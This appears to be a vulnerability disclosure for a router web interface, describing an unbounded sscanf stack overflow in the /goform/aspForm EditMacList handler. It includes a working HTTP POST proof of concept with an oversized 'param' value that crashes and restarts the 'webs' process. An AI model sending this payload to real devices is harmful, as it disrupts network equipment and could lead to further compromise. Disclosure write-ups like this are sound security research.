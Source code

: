 ## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `EditMacList`, the program will go into the following handling function.

![image-20230610001753758](assets/image-20230610001753758.png)



First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v12`, `v14`, `v15`, `v13`  on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.

![image-20230610001819449](assets/image-20230610001819449.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;;;
```

## Result

the process `webs` restart

![image-20230610124047431](assets/image-20230610124047431.png)

